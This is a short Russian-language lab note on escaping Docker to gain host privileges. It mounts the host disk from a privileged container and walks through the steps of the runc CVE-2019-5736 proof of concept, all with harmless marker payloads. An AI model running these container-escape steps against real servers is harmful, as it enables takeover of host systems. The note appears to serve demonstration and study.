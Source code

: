 ## Повышаем привилегии на сервере с использованием docker

### Используем привилегированный режим
```
docker run -it --rm --privileged nginx:1.21.3 bash

mkdir /mount
mount /dev/sda1 /mount
```
Убедимся, что мы действительно примонтировали корень файловой системы
```
ls /mount
```
Создадим нужный фаил
```
echo "PWND!" > /priv
```
### Используем уязвимость CVE-2019-5736 старой версии runc

В файле main.go на 17 строке меняем echo 'replace-me' на 
```
echo 'PWND!' > /CVE
```
Собираем контейнер
```
docker build -t cve-2019-5736-go .
```
Запускаем контейнер
```
docker run -d --name poc_go cve-2019-5736-go
```
Триггерим уязвимость
```
docker exec poc_go /bin/sh
```


